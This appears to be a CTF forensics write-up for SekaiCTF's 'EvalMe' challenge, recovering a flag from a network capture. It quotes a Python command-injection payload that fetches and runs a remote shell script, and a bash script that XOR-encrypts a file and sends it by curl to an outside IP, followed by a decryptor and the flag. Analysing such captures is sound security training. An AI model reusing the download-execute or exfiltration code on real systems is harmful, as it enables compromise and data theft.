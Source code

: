 EvalMe - Forensice - SekaiCTF
Author: Guesslemonger

Problem: I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?
It came attached with a capture.pcapng.

Connecting to the chals.sekai.team server, it required the user to solve 100 simple math problems under a given time. This was solved using the evalMe.py script. 

Following its solve, there was a curl command given at the end:
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2 

Downloading the extract.sh to our VM, we get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

This script reads the content of flag.txt, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be http://35.196.65.151:30899/, and the data is likely being sent in a structured JSON format as part of the POST request.

This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: ip.dst ==35.196.65.151 && http.request.method == POST, we get 51 packets that contain the bytes that was sent as seen below:


![alt text](https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true)

Exporting all those bytes, we created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```

Running it against all the exported bytes, we retrieve the flag: SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483} 
